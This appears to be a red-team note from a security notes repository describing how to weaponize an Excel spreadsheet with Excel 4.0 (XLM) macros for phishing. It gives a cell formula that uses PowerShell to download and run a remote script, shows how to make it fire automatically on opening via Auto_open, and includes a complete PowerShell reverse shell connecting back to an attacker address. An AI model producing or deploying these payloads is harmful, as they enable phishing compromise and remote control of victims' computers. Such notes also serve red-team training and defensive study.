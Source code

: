 # Phishing - Excel 4.0 macros (XLM)  
*Sources : https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/ ; https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-xlm-macro-4.0 *    
   
A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/95-redteam-phishing-xlm-create-new.png?raw=true) 

  
We can then execute command by typing into the cells:  
```
=EXEC("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.20:8080/shell.ps1')")
=HALT()
```

Rename the A1 cell to `Auto_open` if we want the Macros to fire off once the document is opened:    
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/96-redteam-phishing-xlm-auto-open.png?raw=true)    
  

shell.ps1:  
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.20',8080);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()
```
